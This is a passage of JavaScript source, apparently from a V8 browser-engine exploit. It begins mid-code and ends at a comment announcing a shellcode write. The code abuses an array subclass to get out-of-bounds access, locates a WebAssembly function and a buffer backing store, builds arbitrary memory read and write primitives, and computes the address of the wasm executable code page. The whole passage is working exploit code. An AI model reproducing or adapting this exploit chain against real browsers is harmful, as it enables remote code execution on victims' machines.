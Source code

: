```javascript
	}
};

a = new MyArray();
a[8] = 6;

var b = a.map(function(x) {return 1000;});

var float_obj_idx = 0;
for(let i=0; i < 0x100; i++)
{
	if(f2i(oobArray[i]) == 0x430f9534b3e01560){
		float_obj_idx = i + 1;
		console.log("[+] find wasm_function obj : 0x" + hex(f2i(oobArray[float_obj_idx])));
		break;
	}
}
var wasm_function_addr = f2i(oobArray[float_obj_idx]) - 0x1;

//------ find backing_store

var float_buffer_idx = 0;
for(let i=0; i < 0x1000; i++)
{
	if(f2i(oobArray[i]) == 0x0000023300000000){
		float_buffer_idx = i + 1;
		console.log("[+] find data_buf backing_store : 0x" + hex(f2i(oobArray[float_buffer_idx])));
		break;
	}
}

//----- arbitrary read

var data_view = new DataView(data_buf);

function dataview_read64(addr)
{
	oobArray[float_buffer_idx] = i2f(addr);
	return f2i(data_view.getFloat64(0, true));
}

//----- arbitrary write
function dataview_write(addr, payload)
{
	oobArray[float_buffer_idx] = i2f(addr);
	for(let i=0; i < payload.length; i++)
	{
		data_view.setUint8(i, payload[i]);
	}
}

//-----  find wasm_code_rwx_addr 

var wasm_shared_info = dataview_read64(wasm_function_addr + 0x20);
console.log("[+] find wasm_shared_info : 0x" + hex(wasm_shared_info));

var wasm_code = dataview_read64(wasm_shared_info - 0x1 + 0x8);
console.log("[+] find wasm_code : 0x" + hex(wasm_code));

var wasm_rwx = wasm_code - 0xc1 + 0x140; 
console.log("[+] find wasm_rwx : 0x" + hex(wasm_rwx));

//write shellcode to wasm
```